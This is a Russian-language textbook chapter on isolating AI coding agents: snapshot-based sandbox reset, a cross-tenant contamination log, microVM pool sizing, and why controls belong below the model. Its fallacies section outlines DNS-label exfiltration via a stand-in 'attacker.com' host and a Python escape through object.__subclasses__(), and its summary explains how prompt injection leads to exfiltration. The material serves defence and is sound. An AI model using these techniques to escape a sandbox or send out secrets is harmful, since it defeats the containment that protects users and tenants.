Когда аренда заканчивается, соблазнительная уловка — очистить оболочку на месте: убить процессы агента, удалить временные файлы и вернуть ее в режим ожидания. Эта уловка не работает, потому что гость общего назначения прячет состояние в гораздо большем числе мест, чем проверяет скрипт очистки. Демон, который выполнил двойной fork в разделяемую память, переживает убийство процесса. Абстрактный сокет остается привязанным без единого файла на диске. Токен остается в кольце ключей ядра (keyring), запись cron ждет следующего арендатора, а модифицированный злоумышленником `git` или `pytest` сидит в пути поиска. Траектория следующего арендатора наследует все это, и одна инъекция превращается в компрометацию между арендаторами.

**Асимметрия сброса**
Чтобы доказать, что среда чистая, нужно проверить каждое место, где может прятаться состояние. Чтобы доказать, что она грязная, достаточно найти один остаток. Поэтому сброс, который не зависит от проверки, надежнее любой процедуры очистки.

Сдерживание ниже модели (принцип «Сдерживание ниже модели») распространяется и на сброс. Среда выполнения возвращает оболочку в работу одним из двух способов. Оба управляются извне гостя, и ни один не зависит от поиска того, что оставил арендатор. Она может уничтожить оболочку и восстановить замену из снимка или откатить существующую оболочку: отбросить верхний слой, сбросить каждую приватную страницу памяти, чтобы чтения снова проваливались в снимок, и вернуть состояние виртуального ЦП. В любом случае оболочка, которая возвращается в режим ожидания, совпадает с эталонным снимком по построению, а не по проверке.

| Измерение сброса                       | Освобождение каталогов OverlayFS                                     | Снимки на уровне блоков (`dm-thin` / Btrfs)       | Откат предварительно прогретой microVM (`madvise`)      |
|:---------------------------------------|:---------------------------------------------------------------------|:--------------------------------------------------|:--------------------------------------------------------|
| **Примитив демонтажа**                 | `umount` + асинхронное удаление каталога (`rm -rf`)                  | Освобождение снимка + удаление тонкого устройства | `madvise(MADV_DONTNEED)` + сброс регистров vCPU         |
| **Алгоритмическая сложность**          | $\mathcal{O}(k_{\text{inodes}})$ обход дерева каталогов              | $\mathcal{O}(1)$ освобождение указателя листа B-дерева | $\mathcal{O}(1)$ обнуление таблицы страниц VMA          |
| **Задержка сброса ($T_{\text{reset}}$)** | $1\text{--}5\text{ мс}$ (асинхронно) / $200\text{--}800\text{ мс}$ (синхронно) | $< 5\text{ мс}$                                   | **$< 2\text{ мс}$**                                     |
| **Совместное использование кеша страниц** | Единый кеш страниц хоста для всех песочниц                        | Дедупликация только внутри общего блочного дерева | Общий кеш страниц шаблона; приватные грязные страницы CoW |
| **Усиление записи на хосте**           | Пропорционально размерам измененных файлов                           | Гранулярность уровня блоков (обычно фрагменты по 64 КиБ) | Гранулярность уровня страниц (4 КиБ или огромные страницы 2 МиБ) |
| **Режим отказа**                       | Исчерпание inode или конкуренция за блокировки на XFS хоста          | Исчерпание пула блоков при утечке                 | Зависание ядра, если сброс грязных страниц останавливает память хоста |

<a id="tbl-vol3-reset-architectures"></a>

***Архитектуры сброса рабочего пространства: демонтаж объединенной файловой системы против тонкого выделения на уровне блоков**: характеристики производительности, алгоритмические сложности и режимы эксплуатационных отказов.*

Как сравнено в [«Архитектуры сброса рабочего пространства»](08_sandboxes.md#tbl-vol3-reset-architectures), демонтаж эфемерных черновиков дает детерминированные чистые состояния без остаточной утечки на месте.

### Трассировка отказа: заражение между арендаторами

Очистка рабочего пространства на месте, то есть попытка почистить существующий контейнер или среду процесса удалением измененных файлов и убийством известных PID, неизбежно приводит к утечке состояния через границы арендаторов. [«Трассировка отказа: заражение между арендаторами через неполную очистку на месте»](08_sandboxes.md#lst-vol3-cross-tenant-trace) иллюстрирует трассировку отказа в промышленной эксплуатации, где очистка на месте позволила сохраниться фоновым демонам, абстрактным сокетам UNIX и записям кольца ключей ядра:

<a id="lst-vol3-cross-tenant-trace"></a>

**Трассировка отказа: заражение между арендаторами через неполную очистку на месте**: обнаружение сохранившихся фоновых демонов, привязок абстрактных сокетов и утекших секретов кольца ключей ядра после попытки очистить среду на месте.

```bash
# Трассировка отказа: заражение между арендаторами через неполную очистку на месте
[2026-09-19T11:02:14.102Z] AUDIT host_scrubber: Workspace scrubbed; scanning for lingering state...
[2026-09-19T11:02:14.105Z] INVARIANT VIOLATION: Daemon survived via double-fork into root namespace (PID 14209)
[2026-09-19T11:02:14.106Z] INVARIANT VIOLATION: Abstract unix domain socket remains bound (@agent-backdoor)
[2026-09-19T11:02:14.108Z] INVARIANT VIOLATION: Leaked credential in Linux kernel keyring (key_id=0x38fa21b)
```

<a id="sec-vol3-sandboxes-pooling-queueing"></a>

### Расчет размера пула при всплесковом трафике

Размер пула определяют две величины. Когда аренды держатся на протяжении всей траектории, закон Литтла, который [«Аналитические формулировки емкости»](05_kv_cache.md#sec-vol3-kv-capacity-formulations) применяет к резидентным траекториям (вывод приведен в разделе «Очереди для траекторий» приложения), дает число активных аренд как $N_{\text{active}} = \lambda \cdot T_{\text{hold}}$. Здесь $\lambda$ — частота запуска траекторий, а $T_{\text{hold}}$ — время, на которое каждая держит свою аренду. Резерв ожидания должен покрывать поступления за время $T_{\text{init}}$, которое нужно, чтобы пополнить одну оболочку. Поступления в этом окне приблизительно распределены по Пуассону со средним $\lambda T_{\text{init}}$, поэтому для целевой вероятности $\epsilon$ застать очередь ожидания пустой резерв величиной

$$S_{\min} \ge \lambda T_{\text{init}} + z_{1-\epsilon} \sqrt{\lambda T_{\text{init}}}$$

достаточен, когда $\lambda T_{\text{init}}$ велико, а $z_{1-\epsilon}$ — квантиль стандартного нормального распределения. Когда пополнение быстрое, среднее мало, и хвост распределения Пуассона можно прочитать напрямую. Память следует из совместного использования с копированием при записи. Пул содержит один шаблон, один набор приватных страниц на каждую активную аренду и небольшое состояние монитора на каждую оболочку в режиме ожидания:

$$M_{\text{pool}} = M_{\text{template}} + N_{\text{active}} \cdot M_{\text{dirty}} + S \cdot M_{\text{standby}}$$

Уравнения показывают, что горизонт, а не задержка инструментов, задает размер парка. Аренда, которая держится на протяжении всей траектории, делает число активных аренд пропорциональным длительности траектории, а копирование при записи не дает памяти масштабироваться на полный образ гостя.

<a id="nbk-08-sizing-a-pre-warmed-microvm-pool"></a>

> **Расчет: размер прогретого пула для аренд на траекторию**
>
> **Задача:** платформа запускает 2 траектории программирования в секунду, и каждая держит аренду microVM на 300 с. Восстановление оболочки из снимка занимает 15 мс, полный образ гостя — 0,537 ГБ, и каждая траектория записывает около 64 МБ приватных страниц. Каким должен быть резерв ожидания, чтобы шанс застать пустую очередь был ниже 0,1 процента, сколько памяти нужно активным арендам и сколько ждет всплеск из 500 одновременных траекторий?
>
> **Переменные:**
>
> * Частота поступления $\lambda$: 2 траектории в секунду, каждая держит свою аренду в течение $T_{\text{hold}}$, равного 300 с.
> * Время пополнения $T_{\text{init}}$: одно восстановление из снимка, 15 мс.
> * Память: шаблон 0,537 ГБ, $M_{\text{dirty}}$ — 64 МБ на каждую активную аренду.
> * Всплеск: 500 траекторий одновременно, обслуживаемых 8 параллельными восстановлениями.
>

> **Расчет:**
>
> Активные аренды равны $N_{\text{active}} = \lambda T_{\text{hold}}$, или 2 $\times$ 300 $=$ 600.
>
> Число поступлений за одно восстановление в среднем равно $\lambda T_{\text{init}}$, то есть 0,03. При резерве ожидания из одной оболочки очередь опустошается, только если за одно окно восстановления придут две или больше траектории. Это происходит с вероятностью $1 - e^{-\lambda T_{\text{init}}}(1 + \lambda T_{\text{init}}) \approx$ 0,04 процента, что ниже цели. Одной оболочки в режиме ожидания достаточно.
>
> Если бы каждая аренда держала приватную копию гостя, память составила бы 600 $\times$ 0,537 ГБ $\approx$ 322 ГБ. При копировании при записи пул содержит один шаблон 0,537 ГБ и 600 $\times$ 64 МБ $=$ 38,4 ГБ приватных страниц, то есть около 38,9 ГБ всего, что в 8,3 раза меньше.
>
> Всплеск мгновенно опустошает резерв. Восстановление 500 оболочек по 8 за раз занимает 63 раунда (всплеск, деленный на число параллельных восстановлений, с округлением вверх) по 15 мс каждый, поэтому последняя траектория всплеска ждет свою оболочку около 945 мс.
>
> **Системный вывод:** при восстановлении из снимка резерв в режиме ожидания почти ничего не стоит, и даже большой всплеск оценки опустошается менее чем за секунду. Реальная цена сильной изоляции — это резидентная память активных аренд, которая растет с длительностью траектории. Именно совместное использование с копированием при записи делает парк microVM на траекторию доступным по цене.

<a id="sec-vol3-sandboxes-substrate"></a>

### Песочницы как основа для оценки и генерации траекторий

Механизмы, которые сдерживают рабочего агента в эксплуатации, также делают агента измеримым и пригодным для обучения. Закрепленный базовый образ (репозиторий на фиксированном коммите вместе с инструментарием) задает среду задачи. Контракт сброса гарантирует, что каждая попытка начинается с одного и того же состояния, поэтому разница в доле успешных прохождений между двумя политиками отражает сами политики, а не состояние, оставленное предыдущей попыткой. Оценщик, смонтированный только для чтения за пределами записываемого слоя, — это запечатанный верификатор, который встраивается в каркас оценки в главе 12 («Герметичные полигоны оценки»). Пулы, рассчитанные на всплески, поставляют пропускную способность развертываний, от которой зависят отбор траекторий (глава 13, «Отбор траекторий») и обучение с подкреплением по проверяемым наградам (глава 15). Протекающий сброс проявляется дальше по конвейеру как результаты оценки, которые не воспроизводятся, а в обучении как политика, которая учится эксплуатировать то, что оставило предыдущее развертывание.

Механизмы этой главы по отдельности просты. Большинство отказов на практике случаются тогда, когда пропускают один из них, потому что другой казался достаточным.

<a id="sec-vol3-sandboxes-fallacies"></a>

## Заблуждения и ловушки

Ошибки в песочницах сохраняются, потому что каждое сокращение работает при тестировании, где никто не подбрасывал инструкций и не запускал граничных случаев.

> **Заблуждение и ловушка**
>
> **Заблуждение:** *проверка AST на уровне языка и урезанные глобальные имена способны выстроить песочницу для интерпретируемых сред выполнения.*
>
> **Ловушка:** *высокоуровневые динамические языки (Python, Ruby, Node.js) трактуют области видимости, классы и методы как изменяемые объекты в едином хипе. Удаление встроенных имен разрывает только символьные ссылки на переменные. Любой литерал-кортеж, строка или целое число сохраняет двунаправленные указатели на универсальный базовый класс `object`, метод `__subclasses__()` которого открывает каждый класс, загруженный в памяти. Кроме того, статический анализ AST не может разрешить динамическую конкатенацию строк, декодирование hex или вызовы `getattr()` (это неразрешимо по теореме Райса). Единственная уязвимость нативного расширения (NumPy, Pillow) полностью превращает пользовательское пространство в компрометацию хоста на Ring 0.*

> **Заблуждение и ловушка**
>
> **Заблуждение:** *контейнеры операционной системы (Docker/runC) обеспечивают границы изоляции для нескольких арендаторов.*
>
> **Ловушка:** *контейнеры изолируют пространства имен (`PID`, `NET`, `MNT`) внутри одного монолитного ядра Linux. Каждый системный вызов из контейнера переходит напрямую в Ring 0 хоста. Одна уязвимость ядра в любом из более чем 450 системных вызовов хоста, в подсистемах eBPF или драйверах `io_uring` дает произвольное выполнение с правами root во всех совместно размещенных песочницах.*

> **Заблуждение и ловушка**
>
> **Заблуждение:** *очистка файловой системы и процессов на месте быстрее и так же безопасна, как демонтаж оверлеев копирования при записи.*
>
> **Ловушка:** *очистка на месте неизбежно страдает от заражения между арендаторами. Фоновые процессы, порожденные двойным fork и переданные PID 1, абстрактные сокеты UNIX, привязанные сетевые порты и учетные данные кольца ключей ядра Linux переживают проходы очистки. Надежная многоарендная безопасность требует размонтировать и уничтожить эфемерные черновики OverlayFS, а microVM перерабатывать или восстанавливать из чистых снимков.*

> **Заблуждение и ловушка**
>
> **Заблуждение:** *сетевых брандмауэров, блокирующих исходящий трафик TCP/UDP, достаточно, чтобы предотвратить эксфильтрацию данных.*
>
> **Ловушка:** *если песочница сохраняет доступ к стандартному рекурсивному DNS-резольверу на UDP-порту 53, состязательный скрипт может эксфильтровать чувствительные файлы, кодируя данные в метках поддоменов (`base32(secret).attacker.com`). Сдерживание требует фильтрации DNS с раздельным горизонтом, строгого списка разрешенных FQDN, ограничений длины запроса и отбрасывания всех неразрешенных запросов к корневым доменам.*

<a id="sec-vol3-sandboxes-summary"></a>

## Итоги

Разрешенный, корректно типизированный вызов инструмента все равно выполняет код, до которого выдача не может дотянуться, а модель, которая его предложила, читает подброшенные инструкции в той же последовательности, что и свои собственные. Эта глава ограничила такой радиус ниже модели. Инъекция выгружает данные только тогда, когда приватные данные, недоверенное содержимое и исходящий канал сходятся вместе. Возможности и посредничество учетных данных удерживают секреты и неявные полномочия вне песочницы. Изолирующая оболочка, выбранная по коду, полномочиям и длительности, ограничивает то, к чему может прикоснуться код. Рабочее пространство с копированием при записи, арендуемое на траекторию, сохраняет работу между ходами и отбрасывает ее между арендаторами. Контроль исходящего трафика и отслеживание меток сужают пути, по которым данные могут покинуть систему. Пулы со снимками и строгим контрактом сброса делают самую сильную оболочку достаточно дешевой, чтобы никто не имел причин ее ослаблять.

> **Ограничивайте досягаемость, а не запрос**
>
> * **Предел живет ниже модели**: инструкции и недоверенные данные разделяют одну последовательность токенов, поэтому промпты и обрамление лишь снижают вероятность того, что подброшенная инструкция будет выполнена. До чего может дотянуться действие, определяют оболочка, возможности и политика исходящего трафика, которые обеспечивает среда выполнения.
> * **Разрывайте конъюнкцию инъекции**: эксфильтрация требует приватных данных, недоверенного содержимого и канала наружу. Посредничество учетных данных выносит секреты из песочницы, контроль исходящего трафика и проверки меток сужают канал, а оболочка ограничивает то, к чему может прикоснуться код.
> * **Сила оболочки следует за кодом, полномочиями и длительностью**: чистые вычисления подходят песочнице байт-кода, запускаемой на каждый вызов, нативный код, написанный моделью, требует собственного гостевого ядра, а длинная траектория амортизирует запуск microVM на сотнях ходов.
> * **Аренда на траекторию, сброс на арендатора**: рабочее пространство с копированием при записи сохраняет правки агента между ходами, разделяя один базовый образ. По окончании аренды его верхний слой экспортируется как дифф и отбрасывается, а не очищается и не используется повторно.
> * **Пулы делают сильную изоляцию доступной**: при восстановлении из снимка один резервный экземпляр в режиме ожидания покрывает устойчивый поток поступлений, а память с копированием при записи сокращает резидентный след microVM на траекторию примерно в 8,3 раза, поэтому задержка никогда не оправдывает более слабую границу.

Песочницы агентов превратили сдерживание ниже модели (принцип «Сдерживание ниже модели») в механизмы с измеренной стоимостью. Сила оболочки определяется кодом, который она содержит. Сброс происходит откатом или уничтожением, а не очисткой, а пулирование возвращает стоимость запуска, из-за которой сильную изоляцию так и тянет пропустить. Вместе с типизированным контрактом действий (принцип «Типизированный контракт действий») оболочка ограничивает полномочия одного действия: и то, что его код может прочитать и отправить, и то, что он может изменить. Принцип замыкания инвариантов ([«Принцип замыкания инвариантов»](01_introduction.md#pri-invariant-closure)) объясняет, почему все эти ограничения находятся в среде выполнения, а не в инструкциях модели.

> **От ограниченных действий к ограниченной траектории**
>
> Что ограничивает траекторию, когда каждое из ее действий уже ограничено? Ничто в этой главе. Траектория связывает сотни сдержанных действий на протяжении часов, и что-то должно удерживать ее аренду и ее запись, считать ее ходы и расходы, задерживать необратимое предложение до одобрения человеком и останавливать цикл без содействия модели. Каркас, который это делает, описан в главе 9 («Обвязка агента»), и с него начинается часть IV.
